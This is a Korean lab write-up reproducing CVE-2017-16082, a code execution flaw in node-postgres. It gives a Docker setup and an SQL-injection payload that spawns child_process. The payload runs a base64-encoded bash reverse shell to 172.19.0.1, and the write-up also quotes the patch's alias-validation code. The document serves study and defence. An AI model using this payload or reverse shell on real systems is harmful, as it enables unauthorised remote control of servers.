 # node-postgres 임의 코드 실행 취약점（CVE-2017-16082）

> [서현규 (@wh1te4ever)](https://github.com/wh1te4ever)

<br/>

## 취약점 원리

node-postgres는 PostgreSQL로부터 반환된 "Row Description" 유형의 패킷을 처리할 때 필드 이름을 코드에 연결합니다.<br/>
적절한 이스케이프(Escape) 처리가 이루어지지 않아 특수하게 구성된 필드 이름이 코드의 단일 인용부호('') 제한을 우회하여 코드 실행 취약점을 유발할 수 있습니다.

## 취약점 재현

환경 구성 및 실행:

```
docker compose build
docker compose up -d
```

성공적으로 실행된 후에는 `http://localhost:3000/?id=1`에 방문하여 id가 1인 사용자 정보를 볼 수 있습니다:

![](img/1.png)

사용되는 데이터베이스는 postgres이며, sqlmap을 사용하여 여기에 삽입점이 있음을 확인할 수 있습니다:
![](img/2.png)

따라서 여기에서 node-postgres의 코드 실행 취약점이 존재합니다.
<br/>
실행하려는 명령어인 `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`을 작성한 다음, 적절히 분할(각 세그먼트의 길이가 64 문자를 초과하지 않도록)해서 다음 Payload를 만듭니다:

```
SELECT 1 AS "\']=0;require=process.mainModule.constructor._load;/*", 2 AS "*/p=require(`child_process`);/*", 3 AS "*/p.exec(`echo YmFzaCAtaSA+JiAvZGV2L3Rj`+/*", 4 AS "*/`cC8xNzIuMTkuMC4xLzIxIDA+JjE=|base64 -d|bash`)//"
```

위 페이로드를 URL 인코딩해서 전송합니다:：

![](img/3.png)

명령이 성공적으로 실행되면 셸을 얻을 수 있습니다：

![](img/4.png)

## poc.py

로컬 시스템에서 TCP 포트 21에서 수신 대기하는데, 그전에 비동기로 페이로드가 포함된 URL에 GET 요청을 날려 쉘을 가져오는 코드입니다.
![](img/5.png)

## Patch

https://node-postgres.com/announcements#2017-08-12
<br/>
https://github.com/graphile/graphile-engine/pull/48
<br/>
사용자가 정의한 열 별칭이 정밀하게 만들어진 정규식과 일치하는지 확인합니다.</br>
GraphQL에서 다음과 같은 코드로 유효성 검사를 수행하도록 개선했습니다.

```
select(exprGen: SQLGen, alias: RawAlias) {
    this.checkLock("select");
    if (typeof alias === "string") {
      // To protect against vulnerabilities such as
      //
      // https://github.com/brianc/node-postgres/issues/1408
      //
      // we need to ensure column names are safe. Turns out that GraphQL
      // aliases are fairly strict (`[_A-Za-z][_0-9A-Za-z]*`) anyway:
      //
      // https://github.com/graphql/graphql-js/blob/680685dd14bd52c6475305e150e5f295ead2aa7e/src/language/lexer.js#L551-L581
      //
      // so this should not cause any issues in practice.
      if (/^[_A-Za-z][_0-9A-Za-z]*$/.test(alias) !== true) {
        throw new Error("Disallowed alias.");
      }
    }
    this.data.select.push([exprGen, alias]);
  }
```

## 요약

-   해당 취약점으로 공격자는 서버에서 임의의 코드를 실행할 수 있고 작동되고 있는 서버의 쉘을 가져올 수도 있습니다.
-   [이 링크](https://github.com/brianc/node-postgres/issues/1408#issue-249850516)를 참고하면, eval() 함수를 사용하면서 사용자의 데이터를 파싱될때 발생되는 취약점이었습니다.
-   eval() 함수를 사용하면 악성적인 코드를 실행할 수 있기에 사용을 자제하거나 항상 사용되기 전에 유효성 검사를 추가시킬 고려, 검토가 필요합니다.
-   <b>eval() is evil...<b/>

## Reference

-   https://www.leavesongs.com/PENETRATION/node-postgres-code-execution-vulnerability.html
-   https://joker-vip.github.io/2021/11/11/node-postgres%20代码执行漏洞
-   https://github.com/nulldreams/CVE-2017-16082
-   https://buaq.net/go-33738.html
-   https://node-postgres.com/announcements#2017-08-12
-   https://github.com/brianc/node-postgres/issues/1408
-   https://github.com/graphile/graphile-engine/pull/48
